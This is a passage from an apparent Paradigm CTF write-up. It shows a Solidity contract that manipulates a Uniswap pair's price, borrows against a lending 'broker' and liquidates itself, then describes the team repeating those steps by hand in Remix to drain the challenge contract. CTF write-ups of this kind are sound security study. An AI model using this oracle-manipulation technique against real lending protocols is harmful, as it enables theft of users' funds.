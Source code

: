 ```solidity
        broker = _broker;
        token = _token;
    }

    function run() external {
        // Figure out how much of token0 we have.
        uint256 t0Balance = token0.balanceOf(address(this));

        // Prepare the "route" we need to trade through to swap token0 for token1.
        address[] memory path = new address[](2);
        path[0] = address(token0);
        path[1] = address(token1);

        // Do the exchange!
        // I only used half of our balance of token0 because we needed some left over for later.
        router.swapExactTokensForTokens(t0Balance / 2, 1, path, address(this), type(uint256).max);

        // Deposit collateral, again only using half in case we needed more.
        uint256 wBalance = weth.balanceOf(address(this));
        broker.deposit(wBalance / 2);

        // Borrow as much MagicToken as we can!
        uint256 borrowed = broker.safeDebt(address(this));
        broker.borrow(borrowed);

        // Get our balance of token1 to swap it back
        uint256 t1Balance = token1.balanceOf(address(this));

        // Invert the route
        (path[0], path[1]) = (path[1], path[0]);

        // Swap!
        router.swapExactTokensForTokens(t1Balance - borrowed, 1, path, address(this), type(uint256).max);

        // Liquidate ourselves.
        broker.liquidate(address(this), borrowed);
    }
}
```

#### The Exploit (Attempt #2)

Now, obviously, this didn't work. Why? I never bothered to find out. To debug the contract, we set up Remix so we could access all the relevant parts. We had buttons to swap. We had buttons to borrow. We had so many buttons we didn't know what to do with them all.

We manually went through the steps in the contract. First manipulating the pair to raise `safeDebt`, then we deposited and borrowed, swapped the tokens back, and then called `liquidate`. The contract sent us WETH. Its balance had dropped. We rejoiced, and repeated the process. I wish I could say we were methodical or principled in our approach, but honestly we just swapped progressively smaller amounts until we eventually dropped the broker below the goal.


[^1]: As it turns out, most (and likely all) of the eth challenges were forked off of mainnet.
[prev]: @/posts/paradigm-ctf/index.md
[setup]: ./Setup.sol
[@lightclients]: https://twitter.com/lightclients
[factory]: https://uniswap.org/docs/v2/smart-contracts/factory/
[etherscan-factory]: https://etherscan.io/address/0x5C69bEe701ef814a2B6a3EDD4B1652CB9cc5aA6f
[u0]: https://uniswap.org/docs/v2/protocol-overview/how-uniswap-works/
[u1]: https://www.youtube.com/watch?v=Ui1TBPdnEJU
[u2]: https://docs.ethhub.io/guides/graphical-guide-for-understanding-uniswap/
[u3]: https://academy.binance.com/en/articles/what-is-uniswap-and-how-does-it-work